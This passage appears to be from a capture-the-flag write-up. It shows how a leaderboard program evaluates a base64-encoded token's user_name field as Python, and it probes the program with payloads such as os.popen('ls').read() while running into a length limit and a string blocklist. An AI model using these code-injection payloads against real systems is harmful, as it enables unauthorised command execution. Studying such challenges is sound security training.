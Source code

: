 We can see that the program reconize the token, it means he somehow extracts the informations from this token.

If we try to send the token

```py
{'user_name': 7*7}
```

The program answers with

```
No existing score for 49
Please give your username for the leaderboard
```

Which means 2 things : 
- The 7*7 somehow got executed

- The program asks anothe time if the username is considered invalid.

Let's try to see if we can use a library like `os` to execute some commands.

For that, I'll send the payload

```py
{'user_name': os.popen('ls').read()}
```

And we have thins answer

```
b'Please give your username for the leaderboard\n'
eyd1c2VyX25hbWUnOiBvcy5wb3BlbignbHMnKS5yZWFkKCl9
token too large
Please give your username for the leaderboard
```

So there seems to be a limit to how many characters we can send.

After testing a litle bit, it appears that the limit is set to 27 characters before encoding the token.

But there's another problem, if I send

```py
{'user_name':os.popen('a')}
```

The program replies with

```
eyd1c2VyX25hbWUnOm9zLnBvcGVuKCdhJyl9
blocked str
Please give your username for the leaderboard
```

Which means there's also a blacklist of certain strings.

To be sure, let's try getting information on declared variables and declared functions.

There are 3 main functions native to python that fill this role : 
